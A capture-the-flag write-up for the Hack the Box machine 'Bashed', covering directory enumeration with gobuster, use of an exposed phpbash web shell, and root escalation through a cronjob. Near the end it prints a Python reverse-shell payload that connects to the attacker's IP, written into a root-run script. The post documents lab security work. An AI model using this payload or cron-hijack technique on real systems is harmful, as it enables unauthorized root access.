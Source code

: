 ```yaml
---
title: Bashed
date: 2021-01-25
excerpt: "'Bashed' is an easy rated box on Hack the Box. We'll use gobuster to uncover some hidden directories on a webserver, use a custom bash/php client to gain a shell and exploit a script being run as a cronjob for root"
classes: wide
categories: HackTheBox
tags:
  - htb
  - cron
  - gobuster
  - python
---
```



![img](/assets/images/htb/bashed/0.png)

### Port Scanning, General Enumeration and Access (Nmap, Gobuster)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)
  * [Gobuster](https://github.com/OJ/gobuster)

Initial scan showed that the only port available is 80 (HTTP)


![img](/assets/images/htb/bashed/1.png)


![img](/assets/images/htb/bashed/2.png)

Looks like a pretty neat tool, but not a lot to go on.

`gobuster dir -u http://10.10.10.68/ -w /dirs/small.txt -x php`


![img](/assets/images/htb/bashed/3.png)

`/dev`?


![img](/assets/images/htb/bashed/4.png)

found the phpbash thing!


![img](/assets/images/htb/bashed/5.png)


![img](/assets/images/htb/bashed/6.png)

---

### Privesc (php reverse shell, python, cronjobs)
* Reading/Resources
  * [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
  * [python](https://docs.python.org/3/)
  * [cronjobs](https://ostechnix.com/a-beginners-guide-to-cron-jobs/)
  
We can upload files to the `/uploads` directory in the webroot


![img](/assets/images/htb/bashed/7.png)

Let's get a real shell


![img](/assets/images/htb/bashed/8.png)

`python3 -c 'import pty; pty.spawn("/bin/bash")'`


![img](/assets/images/htb/bashed/9.png)

Easy enough to switch to `scriptmanager`

`sudo -u scriptmanager /bin/bash`

There's a scripts folder owned by `scriptmanager`


![img](/assets/images/htb/bashed/10.png)


![img](/assets/images/htb/bashed/11.png)

Interesting, the python script is ours but text file is owned by root?


![img](/assets/images/htb/bashed/12.png)

I see, so the script runs and creates that file. 


![img](/assets/images/htb/bashed/13.png)

Moving the old `test.txt` to `test.txt.bak` and re-running the script we can see that the new `test.txt` is owned by us. That leads me to believe that something with root privs ran that prior. Maybe a cronjob? Let's test


![img](/assets/images/htb/bashed/14.png)

It's back and with root privs!

Let's give this boring old `test.py` some fangs.

```
import socket,subprocess,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.18,4445))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/bash")
```

I created the new `test.py` on my machine and transferred it over. Started a listener and...


![img](/assets/images/htb/bashed/15.png)


![img](/assets/images/htb/bashed/16.png)
